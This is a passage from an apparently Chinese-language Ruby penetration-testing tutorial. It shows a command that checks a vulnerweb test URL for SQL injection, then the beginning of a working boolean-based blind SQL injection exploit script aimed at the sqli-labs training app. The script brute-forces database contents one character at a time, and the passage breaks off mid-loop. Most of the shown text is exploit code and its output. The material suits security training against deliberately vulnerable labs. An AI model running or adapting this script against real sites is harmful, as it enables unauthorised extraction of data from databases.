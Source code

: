 在这个 URL 上尝试一下 ([`testasp.vulnweb.com/showforum.asp?id=0`](http://testasp.vulnweb.com/showforum.asp?id=0))

结果

```
ruby sqli.rb http://testasp.vulnweb.com/showforum.asp?id=0
[+] The http://testphp.vulnweb.com/artists.php?artist=1' is vulnerable! 
```

## 基于布尔值的 SQLi Exploit 脚本

这是一个针对 [sqli-labs](https://github.com/Audi-1/sqli-labs) 可能存在漏洞的应用程序的基于布尔值的 SQLi 攻击。

```
#!/usr/bin/env ruby
# Boolean-based SQLi exploit
# Sabri Saleh | @KINGSABRI
#
require 'open-uri'

if ARGV.size < 1
  puts "[+] ruby #{__FILE__} <IP ADDRESS>"
  exit 0
else
  host = ARGV[0]
end

# Just colorizing outputs
class String
  def red; colorize(self, "\e[1m\e[31m"); end
  def green; colorize(self, "\e[1m\e[32m"); end
  def bold; colorize(self, "\e[1m"); end
  def colorize(text, color_code)  "#{color_code}#{text}\e[0m" end
end

# SQL injection
def send_bbsqli(url, query)
  begin

    response = open(URI.parse( URI.encode("#{url}#{query}") ))

    if !response.read.scan("You are in...........").empty?
      return 1 # TRUE
    end

  rescue Exception => e
    puts "[!] Failed to SQL inject #{e}".red 
    exit 0
  end
end

url = "http://#{host}/sqli-labs/Less-8/index.php?id="

puts "[*] Start Sending Boolean-based SQLi".bold

extracted = []
(1..100).map do |position|
  (32..126).map do |char|
     puts "[*] Brute-forcing on Position: ".bold + "#{position}".green + " | ".bold + "Character: ".bold + "#{char} = #{char.chr}".green

     # Put your query here 
#      query = "1' AND (ASCII(SUBSTR((SELECT DATABASE()),#{position},1)))=#{char}--+"
```